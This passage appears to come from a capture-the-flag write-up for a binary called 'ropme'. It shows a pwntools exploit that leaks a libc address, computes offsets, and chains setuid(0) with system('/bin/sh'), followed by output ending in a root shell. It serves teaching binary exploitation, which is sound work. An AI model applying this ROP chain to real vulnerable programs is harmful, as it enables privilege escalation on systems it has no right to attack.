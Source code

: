   p.sendline(junk + gadget_leak)
  p.recvuntil("ROP me outside, how 'about dah?")
  leaked_put = p.recv()[:8].strip().ljust(8, b'\x00')
  log.info(f'Leaked Address: {leaked_put.hex()}')

  offset = u64(leaked_put) - u64(libc_puts)
  log.info(f'Offset: {offset}')

  system_loc = (u64(libc_system) + offset).to_bytes(8, byteorder='little')
  setuid_loc = (u64(libc_setuid) + offset).to_bytes(8, byteorder='little')
  sh_loc = (u64(libc_sh) + offset).to_bytes(8, byteorder='little')

  log.info(f'System Location: {system_loc.hex()}')
  log.info(f'SetUID Location: {setuid_loc.hex()}')
  log.info(f'/bin/sh Location: {sh_loc.hex()}')

  #Gadget to Code Exec
  gadget_rce = pop_rdi + p64(0) + setuid_loc      # pops rdi, puts 0 into rdi and calls setuid. SetUID sees that value 0, aka root
  gadget_rce += pop_rdi + sh_loc + system_loc     # pops rdi, puts /bin/sh in it and calls system, giving us a root shell

  p.sendline(junk + gadget_rce)
  p.interactive()


Test the exploit:
root@nidus:/git/challenges/ropme# python3 exploit.py
  [+] Starting local process '/usr/bin/gdbserver': pid 63204
  [*] running in new terminal: /usr/bin/gdb -q  "./ropme" -x /tmp/pwniup9y8jz.gdb
  [*] Leaked Address: b0e64c3c1f7f0000
  [*] Offset: 139772131901440
  [*] System Location: 200f4a3c1f7f0000
  [*] SetUID Location: 2042523c1f7f0000
  [*] /bin/sh Location: 56215e3c1f7f0000
  [*] Switching to interactive mode
  ROP me outside, how 'about dah?
  Detaching from process 63228
  $ pwd
  /git/challenges/ropme
  $ whoami
  root

We now have a successful root shell within the program.
